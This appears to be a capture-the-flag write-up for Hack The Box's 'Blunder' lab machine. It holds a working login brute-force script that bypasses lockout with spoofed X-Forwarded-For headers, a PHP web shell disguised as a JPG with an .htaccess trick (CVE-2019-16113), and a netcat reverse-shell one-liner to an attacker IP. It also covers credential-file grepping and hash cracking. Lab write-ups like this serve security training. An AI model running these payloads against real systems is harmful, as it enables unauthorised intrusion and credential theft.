

# HTB - Blunder - 10.10.10.191
### written by: Joshua Worley

## Enumeration
kali@kali:~$ `sudo nmap -sC -sV -F -O 10.10.10.191`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-18 16:32 EDT
Nmap scan report for 10.10.10.191
Host is up (0.048s latency).
Not shown: 98 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (90%), Linux 2.6.32 - 3.1 (90%), Ubiquiti Pico Station WAP (AirOS 5.2.6) (89%), Linux 2.6.32 - 3.13 (89%), Linux 3.0 - 3.2 (89%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (89%), Linux 3.7 (89%), Ubiquiti AirOS 5.5.9 (89%), Linux 3.3 (88%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.61 seconds
```

I like to make an /etc/hosts entry for the box at this point. You'll see me refer to blunder.htb going forward.

### Continued enumeration - pivoting from nmap
Looking for directories that I can read.<br>
`dirb http://blunder.htb/ /usr/share/wordlists/dirb/common.txt`<br>
This reveals the /admin path.<br>


And fuzz for stray txt files<br>
`wfuzz -w /usr/share/wordlists/dirb/big.txt --hc 404 http://blunder.htb/FUZZ.txt`<br>

The todo.txt file is unusual. Curl it to see contents.


Inform fergus? This is our candidate user name.

### Credential stuffing the login page
Looking at the admin page, it never hurts to try admin/admin first.


Inspecting the form submission reveals that a unique cookie is required for each submission. Credential stuffing this form will require a unique session for each attempt and parsing for the token.


This is a modified version of a well known <A href="https://rastating.github.io/bludit-brute-force-mitigation-bypass/">script by rasting</A>.
I was almost there when testing, but realized I needed the X-Forwarded-For when finding his code!
```python
import argparse
import re
import requests

parser = argparse.ArgumentParser(description='Cred stuff for simple http web form')

parser.add_argument('-d',
                    metavar='Dictionary',
                    type=str,
                    help='word list for password candidates',
                    required=True)

parser.add_argument('-p',
                    metavar='Web page',
                    type=str,
                    help='site with form we will stuff',
                    required=True)

parser.add_argument('-u',
                    metavar='User',
                    type=str,
                    help='username we are attacking',
                    required=True)


args = parser.parse_args()

with open(args.d, 'r', errors="replace") as f:
    DICT = f.readlines()

#print(DICT)
for word in DICT:
    session = requests.Session()
    get_it = session.get(args.p)
    sess_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', get_it.text).group(1)
    #print('> {}'.format(word.rstrip()))
    print('> {}'.format(word.rstrip()), end='\r')

    headers = {
        'X-Forwarded-For': word.rstrip(),
        'Referer': args.p,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36'
    }

    payload = {
        'tokenCSRF': sess_token,
        'username': args.u,
        'password': word.rstrip(),
        'save': ''
    }

    login = session.post(args.p, headers = headers, data = payload, allow_redirects = False)

    #print(login.headers)
    if "Location" in login.headers and login.headers['Location'] == "/admin/dashboard":
        print("[!] Password: {}".format(word))
        break
```

The usual word lists did not work. Ultimately, scraping the page with `cewl` revealed the passphrase for fergus.


Output from the python script above


Here is a snippet of what we were looking for


### Taking foothold
The vulnerability we will leverage is <A href="https://github.com/bludit/bludit/issues/1081" rel="noopener noreferrer" target="_blank">CVE-2019-16113</A>.

1. prepare the payload
We start prepping by creating an <A href="https://owasp.org/www-community/attacks/Command_Injection" alt="example 6" rel="noopener noreferrer" target="_blank">intentionally vulnerable snippet of php</A>. This file can be named anything; I chose "shell.jpg".
```php
ÿØÿà..JFIF..
<?php system($_GET['cmd']); ?>
```
> The `ÿØÿà..JFIF..` bit is the magic code for a JPG and tricks the Bludit uploader into assuming our file is an image.

2. Create an `.htaccess` file
```
RewriteEngine Off
AddType application/x-httpd-php .jpg
```

3. Login to the Bludit admin panel with fergus' credentials, then click the new "New content" button.


4. Start burpsuite and be sure to point your browser to its proxy socket. Then, click the images button on the Bludit new content page, click browse, and select your payload. In my case, that would be `shell.jpg`.
<br>
Burpsuite should pop into the foreground. On line 24 (yours may be slightly different), you can change the uuid field to the `tmp` directory as described in the CVE. You will have to traverse up a couple times as shown in the screenshot-- `../../tmp` ; then click 'Forward'.


5. Upload your .htaccess file, but no need to modify the UUID this time. You may need to select your jpg initially, then replace the filename with `.htaccess`.


6. URL encode our <A href="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" alt="example 6" rel="noopener noreferrer" target="_blank">reverse shell</A>. This can be done with a simply python script. Also, start your listening port for the reverse shell.
```python
import urllib.parse
from sys import argv
print(urllib.parse.quote(argv[1]))
```
The reverse shell used
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 9876 >/tmp/f
```


7. Stop burpsuite and remove the proxy setting from your browser. Then navigate to the file you uploaded and append the `cmd` key to the end with your URL encoded reverse shell. You should then see your listening netcat socket drop into a basic shell prompt.
<br><br>
<br><br>


### Privilege escalation: user access
This requires additional enumeration. After a lot of looking around, grepping for "password" yielded interesting results.
```bash
grep -Ri "\"password\":" /var/www
```
<br>

`/var/www/bludit-3.10.0a/bl-content/databases/users.php` is the most interesting file. It contains a raw sha1 digest for Hugo. Hugo is also listed in /etc/passwd as a user on our system (and his home directory contains the user.txt flag!)


Saved the hash on my kali workstation on used hashcat. I tried various dictionaries which did not work initially, but using a hybrid dict-mask attack was successful.


And now `su - hugo` to escalate privilege.<br>


### Escalate to root
I always check `sudo -l` once I've gained a user account. This reveals an odd entry. The hugo account cannot execute /bin/bash as root.


A quick google search of this sudo line entry revealed an <A href="https://www.exploit-db.com/exploits/47502" alt="example 6" rel="noopener noreferrer" target="_blank">easy workaround</A>.


## That's all, folks!
